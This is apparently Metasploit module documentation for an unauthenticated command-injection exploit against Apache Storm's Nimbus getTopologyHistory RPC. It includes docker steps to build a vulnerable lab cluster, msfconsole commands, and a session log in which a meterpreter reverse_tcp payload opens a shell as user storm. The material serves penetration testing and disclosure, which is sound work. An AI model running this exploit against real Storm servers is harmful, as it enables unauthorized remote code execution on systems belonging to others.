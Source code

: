 ## Vulnerable Application

This module exploits an unauthenticated command injection vulnerability within the Nimbus service
component of Apache Storm. The `getTopologyHistory()` RPC method method takes a single argument
which is the name of a user which is concatenated into a string that is executed by bash. In
order for the vulnerability to be exploitable, there must have been at least one topology
submitted to the server. The topology may be active or inactive, but at least one must be present.
Successful exploitation results in remote code execution as the user running Apache Storm.

This vulnerability was patched in versions 2.1.1, 2.2.1 and 1.2.4. This exploit was tested on version 2.2.0
which is affected.

## Verification Steps

1. Setup a minimal Storm cluster using the published docker images. The following steps were adapted from [Docker
  reference][1].
  * The following steps can be executed to start up a minimal Storm cluster, but requires the [Storm Starter][2] jar
    to exist in the current directory as `topology.jar`. Follow the steps on the [projects page][3] to build it with
    Maven. Storm Starter v2.4.0 was used for testing.

```
# 1. Start a ZooKeeper server:
docker run -d --rm --name some-zookeeper zookeeper
# 2. Start a Nimbus server:
docker run -p 6627:6627 -d --rm --name some-nimbus --link some-zookeeper:zookeeper \
  storm:2.2.0 storm nimbus
# 3. Start a Supervisor server:
docker run -d --rm --name supervisor1 --link some-zookeeper:zookeeper --link some-nimbus:nimbus \
  storm:2.2.0 storm supervisor
# 4. Submit a topology using Storm Starter:
docker run --rm --link some-nimbus:nimbus -it -v $(pwd)/topology.jar:/topology.jar \
  storm:2.2.0 storm jar /topology.jar \
  org.apache.storm.starter.ExclamationTopology exclamation
```
2. Start `msfconsole`
3. Do: `exploit/linux/misc/nimbus_gettopologyhistory_cmd_exec`
4. Set the module options
5. Do: `exploit`
6. You should get a shell

## Options

## Scenarios

### Debian 11.1 x64, Apache Storm v2.2.0 (From Docker)

```
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set TARGET  1
TARGET => 1
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set PAYLOAD  linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > check
[*] 192.168.159.31:6627 - The target appears to be vulnerable. Successfully tested command injection.
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] 192.168.159.31:6627 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.159.31:6627 - The target appears to be vulnerable. Successfully tested command injection.
[*] 192.168.159.31:6627 - Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3012548 bytes) to 192.168.159.31
[*] 192.168.159.31:6627 - Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:51680 ) at 2021-11-12 14:45:37 -0500

meterpreter > getuid
Server username: storm
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Debian 11.1 (Linux 5.4.0-89-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://hub.docker.com/_/storm
[2]: https://github.com/apache/storm/tree/master/examples/storm-starter
[3]: https://github.com/apache/storm/tree/master/examples/storm-starter#build-and-install-storm-jars-locally
